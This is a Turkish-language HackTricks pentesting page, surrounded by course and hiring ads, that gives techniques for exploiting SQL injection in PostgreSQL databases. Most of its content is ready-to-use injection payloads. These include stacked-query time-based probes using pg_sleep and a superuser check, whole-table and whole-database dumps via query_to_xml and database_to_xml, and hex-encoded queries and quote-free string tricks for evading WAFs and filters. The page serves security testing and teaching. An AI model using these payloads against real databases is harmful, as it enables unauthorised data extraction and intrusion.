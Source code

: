 # PostgreSQL injection

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyerine** ilgi duyuyorsanız ve hacklenemez olanı hack etmek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Bu sayfa, bir postgresql veritabanında bulunan bir SQL enjeksiyonunu istismar etmenize yardımcı olabilecek farklı ipuçlarını açıklamayı ve** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **bulabileceğiniz ipuçlarını tamamlamayı amaçlamaktadır.**

## Ağ Etkileşimi - Yetki Yükseltme, Port Tarayıcı, NTLM zorluk yanıtı ifşası & Exfiltration

**PostgreSQL modülü `dblink`**, diğer PostgreSQL örneklerine bağlanma ve TCP bağlantıları gerçekleştirme yetenekleri sunar. Bu özellikler, `COPY FROM` işlevselliği ile birleştirildiğinde, yetki yükseltme, port tarama ve NTLM zorluk yanıtı yakalama gibi eylemleri mümkün kılar. Bu saldırıları gerçekleştirme yöntemleri için [bu saldırıları nasıl gerçekleştireceğinizi](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md) kontrol edin.

### **dblink ve büyük nesneler kullanarak exfiltration örneği**

**Büyük nesnelerin içine veri yükleme ve ardından `dblink_connect` fonksiyonunun kullanıcı adı içindeki büyük nesnelerin içeriğini exfiltrate etme** ile ilgili bir CTF örneğini [**bu örneği okuyarak**](dblink-lo_import-data-exfiltration.md) görebilirsiniz.

## PostgreSQL Saldırıları: Okuma/yazma, RCE, yetki yükseltme

PostgreSQL'den ana makineyi nasıl tehlikeye atacağınızı ve yetkileri nasıl yükselteceğinizi kontrol edin:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF atlatma

### PostgreSQL Dize işlevleri

Dizeleri manipüle etmek, **WAF'ları veya diğer kısıtlamaları atlatmanıza yardımcı olabilir**.\
[**Bu sayfada**](https://www.postgresqltutorial.com/postgresql-string-functions/) **bazı yararlı Dize işlevlerini bulabilirsiniz.**

### Yığın Sorgular

PostgreSQL'nin yığın sorguları desteklediğini unutmayın, ancak birçok uygulama yalnızca 1 yanıt beklerken 2 yanıt döndüğünde hata verecektir. Ancak, yığın sorguları Zaman enjeksiyonu aracılığıyla kötüye kullanmaya devam edebilirsiniz:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML hileleri

**query\_to\_xml**

Bu fonksiyon, tüm verileri tek bir dosyada XML formatında döndürecektir. Tek bir satırda çok fazla veri dökmek istiyorsanız idealdir:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Bu fonksiyon, tüm veritabanını yalnızca 1 satırda XML formatında dökecektir (veritabanı çok büyükse dikkatli olun, çünkü bunu DoS yapabilir veya hatta kendi istemcinizi etkileyebilirsiniz):
```sql
SELECT database_to_xml(true,true,'');
```
### Hex'teki Dize

Eğer **sorguları** **bir dize içinde** geçirebiliyorsanız (örneğin **`query_to_xml`** fonksiyonunu kullanarak). **Dizeyi hex olarak geçmek ve bu şekilde filtreleri atlatmak için convert\_from kullanabilirsiniz:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Yasaklı alıntılar

Eğer yüklemeniz için alıntı kullanamıyorsanız, bunu `CHR` ile aşabilirsiniz. Temel ifadeler için (_karakter birleştirme yalnızca SELECT, INSERT, DELETE gibi temel sorgular için çalışır. Tüm SQL ifadeleri için çalışmaz_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ya da `$` ile. Bu sorgular aynı sonuçları döndürür:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hackleme kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
